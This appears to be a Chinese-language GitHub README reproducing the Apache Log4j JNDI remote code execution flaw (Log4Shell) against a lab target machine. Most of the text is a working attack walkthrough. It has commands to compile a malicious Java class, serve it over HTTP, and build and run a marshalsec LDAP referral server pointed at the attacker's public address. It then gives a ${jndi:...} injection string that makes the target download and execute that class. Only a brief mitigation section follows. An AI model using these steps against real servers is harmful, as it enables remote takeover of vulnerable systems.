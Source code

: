 # Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

### 触发步骤


1. 先编译Log4jRCE，这个是恶意java代码,需要预先编译成恶意java类。注意不要用版本太高的jdk编译，不然jdk低版本的靶机可能无法执行。随后启动http server
   1. 进入目录 `cd /home/remote`
   2. 编译 `javac Log4jRCE.java`
   3. 启动http server，python或php均可快速启动，如`php -S 0.0.0.0:8888`

2. 使用marshalsec的ldap server，访问这个ldap server内的任意资源都会被自动转发到http server的固定资源，这里即恶意java类文件
   1. `git clone https://github.com/mbechler/marshalsec.git`
   2. `cd marshalsec`
   3. `mvn clean package -DskipTests`
   4. 启动ldap server并配置转发资源 `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(这里写http server在公网上的地址及端口)/#Log4jRCE"`
      此时对靶机提交${jndi:idap://ip:port/{随便写}}即可，ldap server会自动从http server中下载指定资源并返回给靶机。
3. 启动log4j.java，具体效果参考恶意java类中写的payload`。底层原理就是靶机会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true
